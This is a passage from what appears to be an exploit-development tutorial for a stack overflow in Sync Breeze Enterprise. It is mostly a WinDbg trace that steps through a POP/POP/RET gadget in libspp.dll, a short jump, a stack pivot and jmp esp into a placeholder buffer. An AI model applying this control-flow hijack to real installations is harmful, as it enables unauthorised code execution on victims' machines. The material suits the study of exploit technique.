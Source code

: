 Execute the PoC, set a break point to the P/P/R and continue the execution. Single step through each isntruction to confrim that it's correct.

```bash
0:009> bp 1015a2f0
*** WARNING: Unable to verify checksum for C:\Program Files\Sync Breeze Enterprise\bin\libspp.dll
0:009> g
Breakpoint 0 hit
eax=00000000 ebx=00000000 ecx=1015a2f0 edx=77705b50 esi=00000000 edi=00000000
eip=1015a2f0 esp=0182f440 ebp=0182f460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
libspp!pcre_exec+0x16460:
1015a2f0 58              pop     eax

0:009> t
eax=77705b32 ebx=00000000 ecx=1015a2f0 edx=77705b50 esi=00000000 edi=00000000
eip=1015a2f1 esp=0182f444 ebp=0182f460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
libspp!pcre_exec+0x16461:
1015a2f1 5b              pop     ebx

0:009> t
eax=77705b32 ebx=0182f540 ecx=1015a2f0 edx=77705b50 esi=00000000 edi=00000000
eip=1015a2f2 esp=0182f448 ebp=0182f460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
libspp!pcre_exec+0x16462:
1015a2f2 c3              ret

0:009> t
eax=77705b32 ebx=0182f540 ecx=1015a2f0 edx=77705b50 esi=00000000 edi=00000000
eip=0182ff44 esp=0182f44c ebp=0182f460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
0182ff44 90              nop

0:009> t
eax=77705b32 ebx=0182f540 ecx=1015a2f0 edx=77705b50 esi=00000000 edi=00000000
eip=0182ff45 esp=0182f44c ebp=0182f460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
0182ff45 90              nop

0:009> t
eax=77705b32 ebx=0182f540 ecx=1015a2f0 edx=77705b50 esi=00000000 edi=00000000
eip=0182ff46 esp=0182f44c ebp=0182f460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
0182ff46 eb06            jmp     0182ff4e

0:009> t
eax=77705b32 ebx=0182f540 ecx=1015a2f0 edx=77705b50 esi=00000000 edi=00000000
eip=0182ff4e esp=0182f44c ebp=0182f460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
0182ff4e 6681c43008      add     sp,830h

0:009> t
eax=77705b32 ebx=0182f540 ecx=1015a2f0 edx=77705b50 esi=00000000 edi=00000000
eip=0182ff53 esp=0182fc7c ebp=0182f460 iopl=0         nv up ei ng nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000282
0182ff53 ffe4            jmp     esp {0182fc7c}

0:009> dd @esp L4
0182fc7c  43434343 43434343 43434343 43434343

```
